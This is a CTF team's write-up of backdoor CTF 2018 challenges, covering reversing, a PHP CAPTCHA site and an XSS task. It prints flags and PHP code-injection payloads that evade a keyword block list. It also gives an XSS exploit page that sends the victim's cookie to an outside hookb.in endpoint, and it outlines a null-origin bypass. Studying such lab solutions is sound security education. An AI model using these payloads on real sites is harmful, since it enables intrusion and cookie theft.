 # backdoor CTF 2018

* [backdoor CTF 2018](#backdoor-ctf-2018)
  * [Pwn](#pwn)
     * [shelter (sces60107)](#shelter-sces60107)
  * [rev](#rev)
     * [re-curse (sces60107)](#re-curse-sces60107)
     * [mind-fcuk (sces60107)](#mind-fcuk-sces60107)
  * [forensic](#forensic)
     * [random-noise (qazwsxedcrfvtg14 sces60107)](#random-noise-qazwsxedcrfvtg14-sces60107)
     * [vm-service 1 &amp; 2 (sces60107 qazwsxedcrfvtg14)](#vm-service-1--2-sces60107-qazwsxedcrfvtg14)
  * [misc](#misc)
     * [cats-everywhere (sces60107)](#cats-everywhere-sces60107)
  * [crypto](#crypto)
  * [web](#web)
  * [BF-CAPTCHA-REVENGE (solved by qazwsxedcrfvtg14, written by bookgin)](#bf-captcha-revenge-solved-by-qazwsxedcrfvtg14-written-by-bookgin)
     * [Get-hired (solved by sasdf, written by bookgin)](#get-hired-solved-by-sasdf-written-by-bookgin)
     * [Get-hired 2 (unsolved)](#get-hired-2-unsolved)

## Pwn 

### shelter (sces60107)

## rev

### re-curse (sces60107)

In this challenge, you will get a binary file.

After some investigation, you find out that it's a Haskell binary.

This binary will take your input string and do some encoding, then it will compare your encoded string with the encoded flag.

Here is an example

![](https://i.imgur.com/VhHVHEC.png)


You can find out that `CTF` will become `dE4`.

If encode both string in hex, you will find out the secret.

```shell=
Hex("CTF") = "435446";
Hex("dE4") = "644534";
```

This binary reverse the hex string.

After knowing that encode algorithm, we just need find out the encoded flag.

Finally, the flag is `CTF{R3_CURS3_I5_LIFT3D_0FF_Y0U}`

### mind-fcuk (sces60107)

You will get a binary from this challenge.

First we can just execute it, and see what will happen.

![](https://i.imgur.com/TI82DQi.png)

It has four keys.

This binary will divide your input into four parts, and each part will be compared with those keys repectively after doing some encoding.

The first part is ROT13.
The second one is XOR.
For the third one and four one, I just mantain a mapping table instead of reversing the algorithm.

At the end I can produce the flag.

The flag is `CTF{f5g4s8g4dyjj4f48f5d}`


## forensic

### random-noise (qazwsxedcrfvtg14 sces60107)

### vm-service 1 & 2 (sces60107 qazwsxedcrfvtg14)

## misc

### cats-everywhere (sces60107)

## crypto

## web

## BF-CAPTCHA-REVENGE (solved by qazwsxedcrfvtg14, written by bookgin)

The challenge is a website which shows some brainfuck code and an audio captcha, and I don't bother to solve it at all.

First, the descrition of the challenge gives us the hint about the `.git`. We use [GitTools](https://github.com/internetwache/GitTools) to crwal the repository.

>rnehra01 loves to version control and has made these captchas as good as hell.


In the source code:
```php
function is_clean($input){
    ...

	if (preg_match('/(base64_|eval|system|shell_|exec|php_)/i', $input)){//no coomand injection 
		bad_hacking_penalty();
		return false;
	}

    ...

}

if (is_clean($user_ans)) {
  assert("'$real_ans' === '$user_ans'") 
  ...
}
```

There is a obvious command injection, and it can be bypassed easily.

The payload:
```
`'OR ("sys"."tem")("ls -al") OR'`  
`'OR ("sys"."tem")("cat rand*") OR'`
```

Acctually I'm trying to create a reverse shell, but `system` seems to be more efficient and effective to retrieve the flag.

Of course, I guess some team will solve all the reCAPTCHA to get the flag, and [P4](https://github.com/p4-team/ctf/tree/master/2018-03-18-backdoor-ctf/web_captcha) proves that.

### Get-hired (solved by sasdf, written by bookgin)

In `call.js`, this is vulenrable to XSS:
```javascript=
function p(details){
	document.getElementById('call\_details').innerHTML = details.sender\_username + " is calling " + details.receiver_username + " ....";
}
```

It utilizes `postMessage` API to render the HTML content.
```javascript
$("#audiocall").click(function(){
         var call_window;
         call_window = window.open("call.php");
         setTimeout(function(){
             call_window.postMessage({
               type: "audio",
               details: {
                 sender_username: "admin",
                 sender\_team\_name: "InfosecIITR",
                 receiver\_username: escapeHTML($("#r\_call").val()),
                 receiver\_team\_name: escapeHTML($("#rteam_call").val())
               }
             }, "*");
         }, 100);
     });

```

Also, sending a URL in `get hired` page allows the admin to browse a foreign site. Therefore, we just create a `evilsite.com` with the content below. The admin will post the XSS payload to iFrame, and we are able to get the cookie.

```htmlmixed
<iframe id="if" src="http://localhost/call.php"></iframe>                                                                                
<script>                                                                                                                                 
var ifr = document.getElementById("if").contentWindow;                                                                                   
var payload = "<img src=a onerror='window.location.href=(\"https://hookb.in/test?g=\" + btoa(document.cookie));'>";                      
                                                                                                                                         
setTimeout(function(){                                                                                                                   
ifr.postMessage({                                                                                                                        
  type: "audio",                                                                                                                         
  details: {                                                                                                                             
   sender_username: payload,                                                                                                             
   sender_team_name: payload,                                                                                                            
   receiver_username: payload,                                                                                                           
   receiver_team_name: payload                                                                                                           
  }                                                                                                                                      
}, "*");                                                                                                                                 
}, 3000);                                                                                                                                
</script>
```

### Get-hired 2 (unsolved)

It adds an origin verification function.

```javascript
function verifyorigin(originHref) {
        var a = document.createElement("a");
        a.href = originHref;        
        return a.hostname == window.location.hostname
}

if(!verifyorigin(event.origin)){
    return;
    ...
}
```

Bypass it with null origin using [data URI](https://en.wikipedia.org/wiki/Data_URI_scheme). 

Reference:
1. https://ctftime.org/writeup/9187
2. https://ctftime.org/writeup/9181

